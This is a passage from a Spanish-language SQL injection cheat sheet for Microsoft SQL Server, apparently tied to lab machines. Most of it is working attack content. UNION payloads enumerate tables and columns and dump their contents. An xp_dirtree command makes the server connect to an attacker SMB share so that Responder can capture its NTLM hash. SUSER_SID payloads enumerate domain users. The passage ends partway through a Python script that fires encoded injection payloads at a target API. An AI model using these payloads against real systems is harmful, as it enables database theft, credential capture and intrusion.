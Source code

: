 Para listar las columnas primero necesitamos saber el ID, se puede averiguar aprovechándonos del campo 3 ya que se muestra también en la web. En un caso diferente usa el campo correspondiente:

```sql
union select 1,name,id,4,5,6 FROM <DB>..sysobjects WHERE xtype = 'U';-- -
```

Sabiendo las tablas y su ID podemos listar sus columnas:

```sql
union select 1,name,3,4,5,6 FROM syscolumns WHERE id = <ID>;-- -
```

Bien! Ahora listemos el contenido de la columna:

```sql
union select 1,concat(column1,':',column2),3,4,5,6 FROM <TABLE>;-- -
```

Otra cosa que podemos hacer, es que al ser **MSSQL** con `xp_dirtree` nos podemos conectar a un recurso compartido a nivel de red. Si ese recurso no existe, con `Responder` podemos interceptar el hash NTLM:

```sql
; use master; exec xp_dirtree '\\10.10.X.X\smbFolder\anything';-- -
```

## Enumerar usuarios del dominio mediante SQLi

Si tenemos control de una vulnerabilidad SQLi, podemos listar usuarios del dominio aprovechándonos de esta vulnerabilidad:

```sql
union select 1,SUSER_SID('<DOMINIO>\Administrator'),3,4,5-- -
```

Si queremos ver el SID + RID, se nos mostrará en hexadecimal:

```sql
union select 1,(select sys.fn_varbintohexstr(SUSER_SID('<DOMINIO>\Administrator'))),3,4,5-- -
```

Esto otorgará una cadena en hexadecimal. Los primeros 48 caracteres son el SID, mientras que los restantes son el RID. Gracias a esto, podemos enumerar usuarios del dominio con el RID. Aquí os dejo un script en python hecho por 0xdf que nos permite enumerar usuarios del dominio gracias al RID con una SQLi:

```python
#!/usr/bin/env python3

import binascii
import requests
import struct
import sys
import time


payload_template = """test' UNION ALL SELECT 58,58,58,{},58-- -"""


def unicode_escape(s):
    return "".join([r"\u{:04x}".format(ord(c)) for c in s])


def issue_query(sql):
    while True:
        resp = requests.post(
            "http://10.10.10.179/api/getColleagues",
            data='{"name":"' + unicode_escape(payload_template.format(sql)) + '"}',
            headers={"Content-type": "text/json; charset=utf-8"},
            proxies={"http": "http://127.0.0.1:8080"},
```